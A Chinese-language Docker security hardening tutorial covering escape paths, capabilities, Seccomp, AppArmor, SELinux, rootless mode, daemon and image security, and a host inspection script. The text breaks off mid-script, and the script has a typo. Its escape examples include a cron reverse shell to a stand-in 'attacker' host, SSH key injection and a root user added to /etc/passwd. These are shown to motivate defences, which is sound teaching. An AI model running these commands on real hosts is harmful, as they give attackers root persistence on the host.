






# Docker 安全加固

容器不是虚拟机，共享内核意味着攻击面更大。一个被攻破的容器可能危及整台宿主机。安全加固不是可选项，而是上生产的前提。

---

## Docker 安全模型

### 容器隔离的边界



| 安全层 | 机制 | 提供者 | 强度 |
|--------|------|--------|------|
| 进程隔离 | PID Namespace | Linux 内核 | 中 |
| 网络隔离 | Network Namespace | Linux 内核 | 中 |
| 文件系统隔离 | Mount Namespace | Linux 内核 | 中 |
| 资源限制 | Cgroup | Linux 内核 | 中 |
| 系统调用过滤 | Seccomp | Linux 内核 | 强 |
| 强制访问控制 | AppArmor/SELinux | Linux 内核 | 强 |
| 能力限制 | Capabilities | Linux 内核 | 强 |
| 用户命名空间 | User Namespace | Linux 内核 | 强 |

:::warning 核心认知
容器的隔离是**软件层面**的，通过 Linux 内核特性实现。与虚拟机的**硬件层面**隔离（独立内核）有本质区别。容器安全的核心原则是：**纵深防御，不依赖单一机制**。
:::

---

## 容器逃逸攻击

### 常见逃逸路径



### 逃逸场景详解

#### 1. 特权容器逃逸

```bash
# ❌ 危险：特权容器
docker run --privileged -v /:/host ubuntu bash

# 在特权容器中：
# 可以看到宿主机所有设备
ls /dev/sda*
# 可以挂载宿主机根文件系统
mount /dev/sda1 /mnt
# 可以修改宿主机文件
echo "attacker ssh key" >> /mnt/root/.ssh/authorized_keys
# 可以 chroot 到宿主机
chroot /mnt
```

:::danger 绝对禁止
`--privileged` 等于放弃了所有隔离。**生产环境绝对禁止使用**。如果确实需要特定设备访问，使用 `--device` 和 `--cap-add` 精确授权。
:::

#### 2. Docker Socket 挂载

```bash
# ❌ 危险：挂载 Docker Socket
docker run -v /var/run/docker.sock:/var/run/docker.sock myapp

# 在容器中可以：
# 安装 docker 客户端
apt-get install docker.io
# 创建一个特权容器（逃逸！）
docker run --privileged -v /:/host --rm ubuntu chroot /host
```

:::warning Docker Socket = Root 权限
能访问 Docker Socket 就等于拥有宿主机的 root 权限。任何挂载了 Docker Socket 的容器都是潜在的逃逸入口。
:::

#### 3. 危险的目录挂载

```bash
# ❌ 危险：挂载宿主机敏感目录
docker run -v /:/host myapp
docker run -v /etc:/etc myapp
docker run -v /root:/root myapp
docker run -v /var/run/docker.sock:/var/run/docker.sock myapp

# 攻击方式：写入 cron 任务
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker/4444 0>&1'" >> /host/var/spool/cron/root

# 攻击方式：写入 SSH 公钥
echo "ssh-rsa AAAA..." >> /host/root/.ssh/authorized_keys

# 攻击方式：修改 /etc/passwd
echo "hacker::0:0::/root:/bin/bash" >> /host/etc/passwd
```

#### 4. 内核漏洞逃逸

```
已知可导致容器逃逸的内核漏洞：

CVE-2022-0185  — Integer overflow in namespace handling
CVE-2022-0492  — Cgroup v1 release_notification escape
CVE-2022-2588  — route4 UAF → container escape
CVE-2023-0386  — OverlayFS setuid escape
CVE-2024-1086  — nf_tables UAF → container escape
CVE-2024-21626 — runc leaked file descriptor escape

防御：
1. 及时更新内核
2. 启用 Seccomp 限制系统调用
3. 使用 User Namespace
4. 最小化容器能力
```

---

## Linux Capabilities

### 能力（Capabilities）机制

Linux 将 root 权限拆分为数十个细粒度能力：

```bash
# 查看容器的默认能力
docker run --rm alpine capsh --print

# 默认能力列表：
# CAP_CHOWN        — 修改文件所有者
# CAP_DAC_OVERRIDE — 绕过文件权限检查
# CAP_FOWNER       — 绕过文件属主检查
# CAP_FSETID       — 设置 SUID/SGID 位
# CAP_KILL         — 发送信号给任意进程
# CAP_SETGID       — 修改 GID
# CAP_SETUID       — 修改 UID
# CAP_SETPCAP      — 修改能力
# CAP_NET_BIND_SERVICE — 绑定 <1024 端口
# CAP_NET_RAW      — 使用 raw socket
# CAP_SYS_CHROOT   — chroot
# CAP_MKNOD        — 创建设备文件
# CAP_AUDIT_WRITE  — 写审计日志
# CAP_SETFCAP      — 设置文件能力
```

### 最小化能力

```bash
# 删除所有能力
docker run --cap-drop ALL nginx

# 只添加需要的能力
docker run --cap-drop ALL --cap-add NET_BIND_SERVICE nginx

# 常见场景：
# Web 服务器
docker run --cap-drop ALL --cap-add NET_BIND_SERVICE --cap-add CHOWN nginx

# 需要修改系统时间
docker run --cap-drop ALL --cap-add SYS_TIME myapp

# 需要 ptrace（调试）
docker run --cap-drop ALL --cap-add SYS_PTRACE debug-app

# ❌ 绝对避免
docker run --cap-add SYS_ADMIN myapp   # 等同于接近 root
docker run --cap-add SYS_PTRACE myapp  # 可注入宿主机进程
docker run --privileged myapp          # 拥有所有能力
```

### 能力风险评估

| 能力 | 风险 | 说明 |
|------|------|------|
| SYS_ADMIN | 极高 | 接近 root，可挂载文件系统 |
| SYS_PTRACE | 高 | 可注入宿主机进程 |
| SYS_MODULE | 极高 | 可加载内核模块 |
| NET_ADMIN | 中 | 可修改网络配置 |
| DAC_READ_SEARCH | 中 | 可绕过文件权限读取 |
| SYS_CHROOT | 低 | 仅 chroot，风险有限 |
| NET_BIND_SERVICE | 低 | 绑定低端口，风险有限 |
| CHOWN | 低 | 修改文件所有者 |

---

## Seccomp（系统调用过滤）

### 工作原理

Seccomp（Secure Computing Mode）限制进程可以使用的系统调用：



### Docker 默认 Seccomp 配置

Docker 默认阻止约 44 个危险系统调用：

```bash
# 查看默认 Seccomp 配置
docker run --rm alpine cat /proc/1/status | grep Seccomp
# Seccomp: 2  (过滤模式)

# 默认阻止的系统调用（部分）：
# sysfs          — 挂载文件系统
# swapoff        — 关闭 swap
# swapon         — 开启 swap
# reboot         — 重启系统
# mount          — 挂载文件系统
# umount2        — 卸载文件系统
# pivot_root     — 改变根文件系统
# keyctl         — 内核密钥环操作
# add_key        — 添加密钥
# ptrace         — 进程跟踪（部分允许）
# ...
```

### 自定义 Seccomp 配置

```json
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "architectures": ["SCMP_ARCH_X86_64"],
  "syscalls": [
    {
      "names": [
        "accept", "access", "arch_prctl", "bind", "brk",
        "capget", "capset", "chdir", "chmod", "chown",
        "close", "connect", "dup", "dup2", "dup3",
        "epoll_create", "epoll_ctl", "epoll_wait",
        "exit", "exit_group", "fchmod", "fchown",
        "fcntl", "fstat", "fstatfs", "futex",
        "getcwd", "getdents64", "getegid", "geteuid",
        "getgid", "getpeername", "getpid", "getppid",
        "getsockname", "getsockopt", "getuid",
        "ioctl", "listen", "lseek", "lstat",
        "madvise", "mmap", "mprotect", "mremap", "munmap",
        "nanosleep", "newfstatat", "open", "openat",
        "pipe", "pipe2", "poll", "prctl",
        "pread64", "preadv", "pwrite64", "pwritev",
        "read", "readlink", "recvfrom", "recvmmsg",
        "recvmsg", "rename", "rt_sigaction", "rt_sigprocmask",
        "rt_sigreturn", "select", "sendmsg", "sendmmsg",
        "sendto", "set_robust_list", "set_tid_address",
        "setgid", "setgroups", "setsockopt", "setuid",
        "sigaltstack", "socket", "stat", "statfs",
        "sysinfo", "umask", "uname", "unlink",
        "wait4", "write", "writev"
      ],
      "action": "SCMP_ACT_ALLOW"
    }
  ]
}
```

```bash
# 使用自定义 Seccomp 配置
docker run --security-opt seccomp=my-profile.json myapp

# 完全禁用 Seccomp（不推荐！）
docker run --security-opt seccomp=unconfined myapp

# 使用默认配置（显式指定）
docker run --security-opt seccomp=default myapp
```

:::tip 获取容器的系统调用列表
要编写精确的 Seccomp 配置，先记录容器运行时的系统调用：

```bash
# 使用 strace 记录系统调用
strace -c -f -S time docker run --rm myapp

# 使用 sysdig
sysdig -w trace.scap container.id=abcd1234

# 使用 Aqua 的 seccomp-profile 工具
docker run --rm --name profile \
  -v /var/run/docker.sock:/var/run/docker.sock \
  aquasec/seccomp-profile myapp
```
:::

---

## AppArmor

### 工作原理

AppArmor 是 Linux 强制访问控制（MAC）系统，基于路径定义访问策略：



### Docker 默认 AppArmor 配置

```bash
# 查看容器的 AppArmor 配置
docker inspect my-app --format '{{.AppArmorProfile}}'
# 通常输出: docker-default

# 查看 AppArmor 状态
aa-status

# docker-default 配置提供的保护：
# - 阻止挂载操作
# - 阻止修改 /proc 和 /sys 的大部分内容
# - 阻止加载内核模块
# - 限制网络原始套接字
```

### 自定义 AppArmor 配置

```bash
# 创建自定义配置文件
# /etc/apparmor.d/docker-myapp

#include <tunables/global>

profile docker-myapp flags=(attach_disconnected,mediate_deleted) {
  #include <abstractions/base>

  # 允许读写的目录
  /app/** rw,
  /tmp/** rw,
  /var/log/myapp/** rw,

  # 只读的目录
  /etc/myapp/** r,

  # 网络能力
  network inet tcp,
  network inet udp,
  network inet6 tcp,

  # 拒绝敏感操作
  deny /proc/kcore r,
  deny /proc/sysrq-trigger r,
  deny /proc/** w,
  deny /sys/** w,

  # 限制能力
  capability chown,
  capability dac_override,
  capability setuid,
  capability setgid,
  capability net_bind_service,
}
```

```bash
# 加载配置
apparmor_parser -r /etc/apparmor.d/docker-myapp

# 使用自定义配置运行容器
docker run --security-opt apparmor=docker-myapp myapp

# 禁用 AppArmor（不推荐）
docker run --security-opt apparmor=unconfined myapp
```

---

## SELinux

### Docker 与 SELinux

```bash
# 查看 SELinux 状态
getenforce
# Enforcing / Permissive / Disabled

# Docker 对 SELinux 的支持
# 主要通过 MCS（Multi-Category Security）实现

# 自动为每个容器分配唯一的 MCS 标签
# 防止容器间通过文件系统互相访问

# 运行时指定 SELinux 标签
docker run --security-opt label=level:s0:c100,c200 myapp
docker run --security-opt label=user:system_u myapp
docker run --security-opt label=role:system_r myapp
docker run --security-opt label=type:container_t myapp

# 禁用 SELinux 标签
docker run --security-opt label=disable myapp
```

### Volume 与 SELinux

```bash
# SELinux 环境下 Volume 的 Z/z 后缀：
# :z — 重新标记文件，允许多容器共享
# :Z — 重新标记文件，仅限单容器访问

# 共享卷
docker run -v /data/share:/app/data:z myapp

# 私有卷
docker run -v /data/private:/app/data:Z myapp
```

:::tip SELinux vs AppArmor
- **SELinux**：RHEL/CentOS/Fedora 默认，基于标签，策略复杂但精细
- **AppArmor**：Ubuntu/Debian/SUSE 默认，基于路径，配置更简单
- Docker 同时支持两者，根据宿主机发行版自动选择
- **不要同时启用两者**，选择其一即可
:::

---

## Rootless 模式

### 原理

Rootless Docker 以非 root 用户运行 Docker Daemon，消除 Daemon 被攻破后获取 root 权限的风险：



### 安装 Rootless Docker

```bash
# 前置条件
# 1. uidmap 包（newuidmap/newgidmap）
sudo apt-get install -y uidmap dbus-user-session

# 2. 内核支持 User Namespace
sysctl kernel.unprivileged_userns_clone
# 应为 1

# 安装 rootless Docker
curl -fsSL https://get.docker.com/rootless | sh

# 配置环境变量
echo 'export DOCKER_HOST=unix:///run/user/$UID/docker.sock' >> ~/.bashrc
source ~/.bashrc

# 启动 rootless Docker
systemctl --user start docker
systemctl --user enable docker
```

### Rootless 模式的限制

| 功能 | 支持 | 说明 |
|------|------|------|
| 镜像构建 | ✅ | |
| 容器运行 | ✅ | |
| 端口映射（>1024） | ✅ | |
| 端口映射（<1024） | ❌ | 需要 sysctl 或 rootlesskit |
| Volume | ✅ | |
| Bind Mount | ⚠️ | 只能挂载用户可访问的路径 |
| Docker Compose | ✅ | |
| Overlay 网络 | ❌ | 使用 slirp4netns 替代 |
| Macvlan | ❌ | |
| cgroup 资源限制 | ⚠️ | 需要 systemd + cgroup v2 |
| --privileged | ❌ | 不支持 |

:::important Rootless 的意义
Rootless 模式是容器安全的重要进步。即使 Docker Daemon 被攻破，攻击者也只能获得普通用户权限，无法影响宿主机其他用户和系统服务。新部署推荐优先考虑 Rootless 模式。
:::

---

## 用户命名空间

### User Namespace 重映射

```bash
# 配置用户命名空间重映射
# /etc/docker/daemon.json
{
  "userns-remap": "dockremap"
}

# 创建映射用户
sudo useradd -r -s /bin/false dockremap
sudo sh -c 'echo "dockremap:100000:65536" >> /etc/subuid'
sudo sh -c 'echo "dockremap:100000:65536" >> /etc/subgid'

# 重启 Docker
sudo systemctl restart docker
```

### 重映射原理

```
容器内 UID        宿主机 UID
─────────        ──────────
0 (root)    →    100000
1 (daemon)  →    100001
2 (bin)     →    100002
...
65535       →    165535

容器内的 root 在宿主机只是 UID 100000 的普通用户
即使逃逸出容器，也没有 root 权限
```



:::warning User Namespace 兼容性
启用 userns-remap 后，所有容器都受影响。现有的 Volume 数据可能因权限问题不可访问。建议在新部署时启用，而非在运行中的系统上切换。
:::

---

## 镜像安全

### 镜像安全基线

```bash
# 1. 使用可信基础镜像
docker pull nginx:1.25.3@sha256:xxx  # 锁定 digest

# 2. 以非 root 用户运行
docker run -u 1000:1000 myapp

# 3. 只读文件系统
docker run --read-only myapp
docker run --read-only --tmpfs /tmp --tmpfs /var/run myapp

# 4. 删除不必要的 setuid/setgid 文件
docker run --security-opt no-new-privileges myapp
```

### Dockerfile 安全实践

```dockerfile
# ✅ 安全的 Dockerfile 示例

# 1. 使用精简基础镜像
FROM node:20-slim

# 2. 不安装不必要的工具
# 不要安装 curl, wget, bash 等调试工具

# 3. 创建非 root 用户
RUN groupadd -r appuser && useradd -r -g appuser appuser

# 4. 设置工作目录和权限
WORKDIR /app
COPY --chown=appuser:appuser . .

# 5. 安装依赖
RUN npm ci --only=production

# 6. 删除 setuid/setgid 文件
RUN find / -perm /6000 -type f -exec chmod a-s {} \; || true

# 7. 切换到非 root 用户
USER appuser

# 8. 声明健康检查
HEALTHCHECK CMD ["node", "healthcheck.js"]

# 9. 不暴露敏感信息
# 不使用 ENV 设置密码

EXPOSE 3000
CMD ["node", "server.js"]
```

### 镜像签名与验证

```bash
# 使用 Cosign 签名
cosign sign --key cosign.key myregistry.com/myapp:v1

# 部署前验证签名
cosign verify --key cosign.pub myregistry.com/myapp:v1

# 使用 Docker Content Trust
export DOCKER_CONTENT_TRUST=1
docker pull myregistry.com/myapp:v1

# 查看镜像签名信息
docker trust inspect myregistry.com/myapp:v1
```

---

## 运行时安全

### 安全启动参数清单

```bash
docker run \
  --user 1000:1000 \                          # 非 root 运行
  --read-only \                                # 只读文件系统
  --tmpfs /tmp \                               # 临时目录
  --tmpfs /var/run \                           # 运行时目录
  --cap-drop ALL \                             # 删除所有能力
  --cap-add NET_BIND_SERVICE \                 # 只添加需要的能力
  --security-opt no-new-privileges \           # 禁止提权
  --security-opt seccomp=my-profile.json \     # 自定义 Seccomp
  --security-opt apparmor=docker-myapp \       # AppArmor 配置
  --pids-limit 100 \                           # 进程数限制
  --memory 512m \                              # 内存限制
  --cpus 1.0 \                                 # CPU 限制
  --restart unless-stopped \                   # 重启策略
  --log-driver local \                         # 日志驱动
  --log-opt max-size=10m \                     # 日志大小限制
  --health-cmd "curl -f http://localhost/ || exit 1" \  # 健康检查
  --health-interval 30s \
  --health-retries 3 \
  myapp:v1.2.3
```

### no-new-privileges

```bash
# 禁止容器内进程通过 setuid/setgid 提权
docker run --security-opt no-new-privileges myapp

# 效果：
# - su / sudo 命令失效
# - setuid 程序（如 ping）可能无法正常工作
# - 子进程无法获得比父进程更多权限
```

:::tip 生产必选项
`--security-opt no-new-privileges` 应该是所有生产容器的默认选项，除非有明确的 setuid 需求。
:::

---

## Docker Daemon 安全

### Daemon 配置加固

```json
// /etc/docker/daemon.json
{
  "userns-remap": "dockremap",
  "icc": false,
  "live-restore": true,
  "userland-proxy": false,
  "no-new-privileges": true,
  "seccomp-profile": "/etc/docker/seccomp.json",
  "log-driver": "local",
  "log-opts": {
    "max-size": "10m",
    "max-file": "5"
  },
  "metrics-addr": "127.0.0.1:9323",
  "storage-driver": "overlay2"
}
```

| 配置项 | 说明 |
|--------|------|
| `userns-remap` | 启用用户命名空间重映射 |
| `icc: false` | 禁止默认 bridge 网络上容器间通信 |
| `live-restore: true` | Daemon 重启时保持容器运行 |
| `userland-proxy: false` | 禁用用户态代理，使用 iptables |
| `no-new-privileges: true` | 全局禁止提权 |

### Daemon 访问控制

```bash
# 1. Docker Socket 权限
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker ...
# 只允许 root 和 docker 组访问

# 2. 添加用户到 docker 组（注意安全影响）
sudo usermod -aG docker myuser
# ⚠️ docker 组等同于 root 权限！

# 3. 使用 TLS 认证远程 API
# /etc/docker/daemon.json
{
  "tls": true,
  "tlsverify": true,
  "tlscacert": "/etc/docker/ca.pem",
  "tlscert": "/etc/docker/server-cert.pem",
  "tlskey": "/etc/docker/server-key.pem",
  "hosts": ["tcp://0.0.0.0:2376", "unix:///var/run/docker.sock"]
}

# 客户端连接
docker --tlsverify \
  --tlscacert=ca.pem \
  --tlscert=cert.pem \
  --tlskey=key.pem \
  -H tcp://docker-host:2376 info
```

---

## 安全审计与监控

### Docker Bench for Security

```bash
# 运行 CIS Docker Benchmark 检查
docker run --rm --net host --pid host \
  --userns host --cap-drop audit_control \
  -e DOCKER_CONTENT_TRUST=$DOCKER_CONTENT_TRUST \
  -v /etc:/etc:ro \
  -v /lib/systemd/system:/lib/systemd/system:ro \
  -v /usr/bin/containerd:/usr/bin/containerd:ro \
  -v /usr/bin/runc:/usr/bin/runc:ro \
  -v /usr/lib/systemd:/usr/lib/systemd:ro \
  -v /var/lib:/var/lib:ro \
  -v /var/run/docker.sock:/var/run/docker.sock:ro \
  docker/docker-bench-security
```

### 运行时监控

```bash
# Falco — 运行时安全监控
# 检测异常行为，如：
# - 容器内启动 shell
# - 读取敏感文件
# - 网络连接异常
# - 进程提权
# - 容器逃逸行为

# 安装 Falco
curl -s https://falco.org/repo/falcosecurity-packages.asc | \
  sudo apt-key add -
echo "deb https://download.falco.org/packages/deb stable main" | \
  sudo tee -a /etc/apt/sources.list.d/falcosecurity.list
sudo apt-get update && sudo apt-get install falco

# Falco 规则示例
# - rule: Container Escaped
#   desc: Detect process started outside container
#   condition: >
#     container.id != host and
#     proc.name != docker-runc and
#     not container.image.repository in (trusted_images)
#   output: "Container escape detected (container=%container.id image=%container.image.repository)"
#   priority: CRITICAL
```

### 审计日志

```bash
# 启用 Docker 审计日志
# /etc/audit/rules.d/audit.rules
-w /var/run/docker.sock -p wa -k docker
-w /etc/docker/daemon.json -p wa -k docker
-w /usr/bin/docker -p x -k docker
-w /usr/bin/dockerd -p x -k docker
-w /usr/bin/containerd -p x -k docker
-w /usr/bin/runc -p x -k docker

# 查看审计日志
ausearch -k docker | tail -20
```

---

## 安全基线检查清单

### 镜像安全

| 检查项 | 状态 | 说明 |
|--------|------|------|
| 使用精简基础镜像 | ☐ | slim/alpine/distroless |
| 锁定镜像版本号 | ☐ | 不使用 latest 标签 |
| 以非 root 用户运行 | ☐ | Dockerfile 中 USER 指令 |
| 删除 setuid/setgid | ☐ | find -perm /6000 -exec chmod a-s |
| 无硬编码密钥 | ☐ | 使用 ARG + 运行时环境变量 |
| 镜像漏洞扫描 | ☐ | Trivy/Scout CI 集成 |
| 镜像签名验证 | ☐ | Cosign/DCT |

### 容器运行时安全

| 检查项 | 状态 | 说明 |
|--------|------|------|
| 非 root 运行 | ☐ | --user 1000:1000 |
| 只读文件系统 | ☐ | --read-only |
| 最小能力 | ☐ | --cap-drop ALL + 按需添加 |
| Seccomp 配置 | ☐ | 默认或自定义配置 |
| AppArmor 配置 | ☐ | 默认或自定义配置 |
| no-new-privileges | ☐ | --security-opt no-new-privileges |
| 资源限制 | ☐ | --memory --cpus --pids-limit |
| 健康检查 | ☐ | --health-cmd |
| 日志限制 | ☐ | --log-opt max-size |

### Daemon 安全

| 检查项 | 状态 | 说明 |
|--------|------|------|
| 用户命名空间 | ☐ | userns-remap 或 rootless |
| TLS 远程 API | ☐ | 不要暴露未加密的 2375 端口 |
| Docker Socket 权限 | ☐ | 仅 root/docker 组 |
| 审计日志 | ☐ | auditd 规则 |
| 禁止容器间默认通信 | ☐ | icc: false |
| live-restore | ☐ | Daemon 重启不中断容器 |

### 网络安全

| 检查项 | 状态 | 说明 |
|--------|------|------|
| 最小端口暴露 | ☐ | 只映射必要端口 |
| 数据库不暴露端口 | ☐ | 不映射 -p 5432 等 |
| 网络隔离 | ☐ | 前后端分离网络 |
| 内部网络 | ☐ | 数据层 --internal |
| 禁止特权端口映射 | ☐ | 除非必要 |

---

## 实战：安全加固脚本

### 容器安全检查脚本

```bash
#!/bin/bash
# docker-security-check.sh — 容器安全巡检

set -euo pipefix

echo "===== Docker 安全巡检 ====="
echo ""

ISSUES=0

# 1. 检查特权容器
echo ">>> 检查特权容器"
PRIVILEGED=$(docker ps -q --filter "label=com.docker.compose.service" | while read c; do
  docker inspect "$c" --format '{{.HostConfig.Privileged}}'
done | grep -c true || true)
if [ "$PRIVILEGED" -gt 0 ]; then
  echo "  ❌ 发现 ${PRIVILEGED} 个特权容器"
  ISSUES=$((ISSUES + 1))
else
  echo "  ✅ 无特权容器"
fi

# 2. 检查 root 运行容器
echo ">>> 检查以 root 运行的容器"
ROOT_CONTAINERS=$(docker ps -q | while read c; do
  USER=$(docker inspect "$c" --format '{{.Config.User}}')
  if [ -z "$USER" ] || [ "$USER" = "root" ] || [ "$USER" = "0:0" ]; then
    docker inspect "$c" --format '{{.Name}}'
  fi
done | tr -d '/')
if [ -n "$ROOT_CONTAINERS" ]; then
  echo "  ⚠️  以下容器以 root 运行:"
  echo "$ROOT_CONTAINERS" | sed 's/^/    /'
  ISSUES=$((ISSUES + 1))
else
  echo "  ✅ 所有容器以非 root 运行"
fi

# 3. 检查 Docker Socket 挂载
echo ">>> 检查 Docker Socket 挂载"
SOCKET_MOUNT=$(docker ps -q | while read c; do
  docker inspect "$c" --format '{{range .Mounts}}{{.Source}}{{end}}' | \
    grep -q docker.sock && docker inspect "$c" --format '{{.Name}}'
done | tr -d '/')
if [ -n "$SOCKET_MOUNT" ]; then
  echo "  ❌ 以下容器挂载了 Docker Socket:"
  echo "$SOCKET_MOUNT" | sed 's/^/    /'
  ISSUES=$((ISSUES + 1))
else
  echo "  ✅ 无容器挂载 Docker Socket"
fi

# 4. 检查能力
echo ">>> 检查容器能力"
CAPS=$(docker ps -q | while read c; do
  CAPS_LIST=$(docker inspect "$c" --format '{{.HostConfig.CapAdd}}')
  if [ "$CAPS_LIST" != "[]" ] && [ "$CAPS_LIST" != "" ]; then
    NAME=$(docker inspect "$c" --format '{{.Name}}' | tr -d '/')
    echo "  ${NAME}: ${CAPS_LIST}"
  fi
done)
if [ -n "$CAPS" ]; then
  echo "  ⚠️  以下容器添加了额外能力:"
  echo "$CAPS"
else
  echo "  ✅ 无容器添加额外能力"
fi

# 5. 检查宿主机目录挂载
echo ">>> 检查危险目录挂载"
DANGEROUS_MOUNTS=$(docker ps -q | while read c; do
  docker inspect "$c" --format '{{range .Mounts}}{{.Source}}:{{.Destination}} {{end}}' | \
    grep -E '^/:(/host|/etc|/root|/var/run)' && \
